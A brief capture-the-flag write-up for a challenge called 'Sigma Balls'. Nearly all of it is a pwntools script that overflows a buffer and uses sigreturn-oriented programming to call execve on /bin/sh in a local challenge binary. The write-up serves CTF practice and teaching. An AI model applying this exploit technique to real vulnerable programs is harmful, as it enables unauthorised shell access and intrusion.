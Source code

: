 # Sigma Balls

Sigoriented return programming. Copy a script from online,
tweak up the required values and it should work.

It's 12am on the day of the CTF and I'm too lazy to write an
in-depth writeup on how to solve this. If yall wanna know
how just drop me a DM.

## Solve Script

```py
from pwn import *

elf = context.binary = ELF('./sigma-balls')
p = process()

BINSH = 0x402036
POP_RAX = 0x40117e
SYSCALL = 0x401233
RET = 0x40101a

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = BINSH
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = SYSCALL

payload = b"A" * 72
payload += p64(RET)
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL)
payload += bytes(frame)

p.sendafter(b"> ", payload)
p.interactive()
```

